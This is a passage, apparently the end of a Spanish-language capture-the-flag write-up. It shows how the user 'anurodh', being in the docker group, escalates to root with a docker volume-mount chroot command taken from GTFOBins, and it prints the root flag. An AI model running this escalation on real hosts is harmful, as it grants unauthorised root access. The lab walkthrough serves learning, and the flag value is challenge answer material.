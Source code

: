 Probare su anurodh con este password en la terminal.

## De Anurodh a root

Usar el comando id, y el user pertenece al grupo que puede ejecutar docker
```bash
uid=1002(anurodh) gid=1002(anurodh) groups=1002(anurodh),999(docker)
```

En la pagina web GTFobins buscar un shell para escalar a root 

```bash
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```
Y ya eres root, en la ruta /root esta la utlima flag.

```bash
 {ROOT-FLAG: w18gfpn9xehsgd3tovhk0hby4gdp89bg}
```








